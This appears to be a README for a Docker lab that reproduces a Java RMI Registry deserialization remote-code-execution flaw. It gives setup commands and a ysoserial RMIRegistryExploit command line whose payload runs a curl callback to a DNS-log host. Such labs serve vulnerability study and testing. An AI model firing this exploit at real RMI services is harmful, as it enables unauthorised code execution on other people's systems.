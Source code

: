 # Java ≤JDK 8u111 RMI Registry Deserialization Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Java Remote Method Invocation (RMI) is used for remote procedure calls in Java. Although remote binding is typically disabled, RMI Registry contains a remote binding functionality that can be exploited. By forging serialized data (implementing the Remote interface or dynamically proxying objects that implement the Remote interface) during the binding process, an attacker can trigger a deserialization vulnerability in the Registry when it processes the data. This environment uses commons-collections:3.2.1 for demonstration.

References:

- <https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server>
- <https://github.com/frohoff/ysoserial>

## Environment Setup

Execute the following commands to compile and start the RMI Registry and server:

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

Replace `your-ip` with your server's IP address. The client will use this IP to connect to the server.

After startup, the RMI Registry will be listening on port 1099.

## Vulnerability Reproduction

Use the RMIRegistryExploit from ysoserial's exploit package to perform the attack:

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![](1.png)

The Registry will return an error, but this is normal and the command will still execute successfully.
